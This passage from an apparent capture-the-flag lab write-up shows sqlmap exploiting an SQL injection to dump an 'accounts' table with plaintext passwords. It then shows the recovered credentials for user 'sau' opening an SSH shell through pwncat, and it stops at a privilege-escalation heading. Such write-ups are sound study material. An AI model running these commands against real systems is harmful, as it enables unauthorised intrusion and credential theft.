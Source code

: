 Similarly, the accounts tables can be dumped by appending `-T accounts --dump` to the previous command. The accounts table contains the password for the user, `sau`.

```bash
> sqlmap -r sqli.req --risk 3 --level 3 -p id --batch -T accounts --dump

[15:54:27] [INFO] fetching entries for table 'accounts'
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+

```

Nothing  relevant in the `messages` table.

```bash
[15:55:10] [INFO] fetching entries for table 'messages'
Database: <current>
Table: messages
[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+

```


### Shell as sau

The newly acquired credentials for `sau` also work on SSH.

```bash
> pc sau:HereIsYourPassWord1431@10.10.11.214
[15:56:02] Welcome to pwncat 🐈!
[15:56:05] 10.10.11.214:22: registered new host w/ db
(local) pwncat$
(remote) sau@pc:/home/sau$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)
```


---
## Privilege Escalation to root
----

Found the user flag in `sau`'s home directory.
